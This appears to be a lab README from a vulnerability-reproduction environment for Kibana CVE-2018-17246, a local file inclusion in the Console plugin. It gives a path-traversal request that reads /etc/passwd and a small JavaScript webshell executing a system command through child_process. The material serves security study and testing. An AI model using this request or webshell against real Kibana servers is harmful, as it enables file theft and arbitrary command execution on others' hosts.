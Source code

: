 # Kibana Local File Inclusion (CVE-2018-17246)

[中文版本（Chinese Version）](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 6.4.3 and 5.6.13 contain an arbitrary file inclusion flaw in the Console plugin. An attacker with access to the Kibana Console API could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References: 

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/

## Setup

Start the Kibana 5.6.12 and Elasticsearch 5.6.16:

```
docker-compose up -d
```

After started the environment, the Kibana is listening on `http://your-ip:5106`.

## Vulnerability Reproduce

Send the following request to trigger a basic path traversal:

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

Though there is nothing response except a error message with the 500 status code, you can see the exception in the `docker-compose logs`:

![](1.png)

File `/etc/passwd` is imported successfully. 

To exploit this vulnerability, you need to upload a JavaScript webshell to the machine where the Kibana is running, then include it.

```js
// docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

![](2.png)
